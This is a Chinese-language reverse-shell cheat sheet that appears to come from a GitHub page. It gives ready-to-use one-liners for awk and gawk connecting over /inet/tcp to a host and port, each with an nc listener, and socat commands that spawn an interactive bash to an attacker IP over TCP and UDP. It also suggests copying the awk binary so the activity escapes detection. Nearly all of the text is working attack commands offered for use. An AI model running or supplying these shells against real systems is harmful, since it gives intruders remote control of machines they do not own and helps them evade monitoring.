 ## awk

 awk是一种处理文本文件的语言，是一种解释型的编程语言，可以使用awk来处理反弹的命令。

[什么是awk？](https://github.com/mylxsw/growing-up/blob/master/doc/三十分钟学会AWK.md)

```
监听端：
nc -nlvp 1231
```

```
被监听端：
cp /usr/bin/awk /home/a               
(复制一个awk，一般情况下黑客如果做这一步是为了防止被检测，这一步可以不用做，直接用awk执行也是可以的)
/home/a 'BEGIN{s="/inet/tcp/0/[host]/[port]"
（BEGIN语句块在程序开始的使用执行，它只执行一次，BEGIN是awk的关键字，这个地方这条和下一条语句是拆开的，也可以合并在一起执行，注意合在一起执行的话，这条语句后面要加分号，比如看下面gawk，我会合并执行）
for(;s|&getline c;close(c))while (c|getline)print|&s;close(s)}'
(与其他C系语言一样，awk也有for循环，getline命令表示让awk读取下一行内容，close()函数是内建函数)
```

## gawk

 gawk是GNU所做的awk，之后不断地更新迭代，gawk 包含 awk 的所有功能。

```
监听端：
nc -nlvp 1231
```

```
被监听端:
gawk 'BEGIN{s="/inet/tcp/0/[host]/[port]";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

## socat

#### tcp

接收端输入：

```shell
./socat TCP-LISTEN:ip -
```

发送端输入：

```shell
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ip:port
```

#### udp

```shell
socat udp-connect:攻击者ip:端口 exec:'bash -li',pty,stderr,sane 2>&1>/dev/null &
```
